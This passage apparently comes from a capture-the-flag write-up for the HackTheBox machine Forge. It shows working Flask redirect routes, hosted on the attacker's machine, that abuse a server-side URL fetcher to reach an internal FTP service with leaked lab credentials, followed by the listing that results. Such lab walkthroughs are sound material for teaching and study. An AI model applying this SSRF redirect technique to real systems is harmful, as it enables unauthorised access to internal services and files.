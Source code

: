 ```
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>

```

The FTP server has creds user / heightofsecurity123!. The `/upload` url that supports FTP and works as a GET request.

It’s strange to me that the site now supports FTP, since I know it’s using `requests`, which doesn’t. But I’ll trust the site, and dig into this in [Beyond Root](#web-server-config-and-requests--ftp).

### FTP

My first attempt to get to FTP was with another endpoint in Flask to direct to it:

```

@app.route("/2")
def ftp_direct():
    return redirect('ftp://user:heightofsecurity123!@127.0.0.1')   

```

Unfortunately, the page returned an error:

![](https://0xdfimages.gitlab.io/img/image-20210819211509764-16294244772732.png)

Of course, the base domain `/upload` support FTP (I already knew that from recon). But there is a `/upload` on `admin.forge.htb` as well. The announcements page must be talking about that one. I’ll use a redirect to the admin upload page to get it to fetch from FTP.

I’ll write a slightly more generic Flask route this time. This route will do the indirect FTP, and it will allow me to pass a GET parameter, `f` to specify the file to get if this works:

```

@app.route("/3")
def ftp_via_admin():
    f = request.args.get('f', default='')
    return redirect(f'http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/{f}')  

```

Submitting `http://10.10.14.6/3` returned a listing of the files in FTP:

```

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 May 31 12:23 user.txt 

```
